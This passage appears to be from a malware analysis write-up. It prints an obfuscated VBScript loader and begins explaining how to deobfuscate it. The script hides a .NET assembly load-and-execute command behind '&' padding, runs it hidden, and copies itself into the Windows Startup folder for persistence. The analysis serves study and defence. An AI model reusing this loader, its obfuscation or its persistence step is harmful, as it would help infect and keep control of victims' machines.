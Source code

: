 ```vb
Reqest = Reqest0 + Reqest1 + Reqest2 +  Reqest3 + Reqest4 + Reqest5''''''''''''''''al37ysoeopm'al37ysoeopm
PathString = SObject.NameSpace(7).Self.Path & "/" & WScript.ScriptName''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest0 = "&[&S&y&s&t&e&m&."''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest1 = "&R&e&f&l&e&c&t&i&"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest2 = "o&n&.&A&s&s&e&m&b&l"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest3 = "&y&]&:&:&l&o&a&d&f" ''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest4 = "&i&l&e(&$&"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest5 = "f&)&;&"''''''''''''''''al37ysoeopm'al37ysoeopm
InvokeReqest = InvokeReqest0 + InvokeReqest1 + InvokeReqest2 + InvokeReqest3 + InvokeReqest4 + InvokeReqest5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem0 = "&[&W&o&r&k"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem1 = "&A&r&e&a&."''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem2 = "&W&o&&r&k"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem3 = "]&:&"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem4 = ":&E&x&" ''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem5 = "e(&)&"''''''''''''''''al37ysoeopm'al37ysoeopm
ExecAssem   = ExecAssem0 + ExecAssem1 + ExecAssem2 + ExecAssem3 + ExecAssem4 + ExecAssem5''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
CollectThenReplace Power , Path , Reqest , InvokeReqest , ExecAssem
''''''''''''''''al37ysoeopm'al37ysoeopm

Sub CollectThenReplace(First, Second , Third , Fourth , Fifth)''''''''''''''''al37ysoeopm'al37ysoeopm
Temp = First + Second + Third + Fourth + Fifth''''''''''''''''al37ysoeopm'al37ysoeopm
Code = Replace(Temp , "&" , "" )''''''''''''''''al37ysoeopm'al37ysoeopm
End Sub''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
Return = Object.Run(Code, 0, true)''''''''''''''''al37ysoeopm'al37ysoeopm
''''''''''''''''al37ysoeopm'al37ysoeopm
WScript.Sleep(50000)''''''''''''''''al37ysoeopm'al37ysoeopm
For i = 1 To 5''''''''''''''''al37ysoeopm'al37ysoeopm
if i = 5 Then''''''''''''''''al37ysoeopm'al37ysoeopm
Paste(SPath)
End if''''''''''''''''al37ysoeopm'al37ysoeopm
Next''''''''''''''''al37ysoeopm'al37ysoeopm
Sub Paste(RT)
FObject.CopyFile RT,PathString
End Sub
```

It looks messy, somehow obfuscated, we can try for de-obfuscate it, you know. the `&` char looks like its there to make it look uglier, we can remove it, just replace it with nothing, as the script is trying to do at the end.

Line 52 `Code = Replace(Temp , "&" , "" )''''''''''''''''al37ysoeopm'al37ysoeopm`

After that we get something clear. And checking through we come across the `request` variable.
